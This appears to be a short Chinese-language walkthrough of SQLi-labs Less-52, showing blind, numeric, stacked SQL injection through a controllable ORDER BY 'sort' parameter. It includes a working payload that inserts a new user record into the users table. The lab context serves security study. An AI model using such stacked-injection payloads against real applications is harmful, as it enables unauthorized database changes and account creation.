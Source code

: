 # GET -Blind based -ORDER BY CLAUSE -numeric -Stacked injection  
TAG：GET型注入、堆叠注入、ORDER BY参数可控、盲注  
## 漏洞利用
![less52_1](images\less52_1.png)  
  
这次的页面什么报错也没有剩下  
![less52_1](images\less52_2.png)  
  
![less52_1](images\less52_3.png)  
  
![less52_1](images\less52_4.png)  
当?sort=1时正常回显，?sort=1'与?sort=1"时都无法回显推测其为整形参数  
  
构造堆叠注入语句插入新用户  
payload:```?sort=1;insert into users(id,username,password) values ('27','less52','hello')--+```  
堆叠注入成功  
![less52_5](images\less52_5.png)  